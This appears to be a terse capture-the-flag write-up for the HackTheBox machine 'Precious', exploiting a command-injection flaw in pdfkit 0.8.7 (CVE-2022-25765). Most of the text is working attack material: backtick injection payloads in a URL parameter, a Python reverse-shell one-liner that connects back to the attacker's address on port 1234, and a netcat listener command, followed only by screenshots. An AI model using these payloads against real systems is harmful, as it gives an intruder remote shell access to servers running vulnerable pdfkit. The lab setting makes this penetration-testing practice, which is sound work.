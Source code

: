 ```yaml
---
title: HTB:Precious
date: 2023-11-19 21:41:37
categories:
- Machines
- Lab
tags:
- HTB
- easy
---
```


# Precious

Created: February 21, 2023 9:15 PM
Parent item: HackTheBox (https://www.notion.so/HackTheBox-6dbc14645a5943aab73ab7c0d22c7d74?pvs=21)
URL: 10.10.11.189

ip==10.10.11.189

tun0==10.10.14.26

pdfkit v0.8.7

[Command Injection in pdfkit | CVE-2022-25765 | Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

```php
irb(main):060:0> puts PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").command wkhtmltopdf --quiet [...] 
"http://example.com/?name=%20`sleep 5`" - => nil
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

python -m http.server 8080

```php
"http://10.10.14.26:8080/?name=%20`sleep 5`" 
```

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```php
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
http://10.10.14.26:8080/?name=%20`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
#nc -lvnp 1234 
```



![Screenshot_2023-02-21_04_38_17](../images/Screenshot_2023-02-21_04_38_17-17004013930836.png)

![Screenshot_2023-02-21_05_39_45](../images/Screenshot_2023-02-21_05_39_45-17004013963287.png)

![Screenshot_2023-02-21_07_46_40](../images/Screenshot_2023-02-21_07_46_40-17004013996568.png)

![Screenshot_2023-02-21_07_54_23](../images/Screenshot_2023-02-21_07_54_23-17004014024909.png)

![Screenshot_2023-02-21_08_02_08](../images/Screenshot_2023-02-21_08_02_08-170040140473210.png)

![Screenshot_2023-02-21_08_08_20](../images/Screenshot_2023-02-21_08_08_20-170040140747711.png)

![Screenshot_2023-02-21_08_10_34](../images/Screenshot_2023-02-21_08_10_34-170040141086712.png)
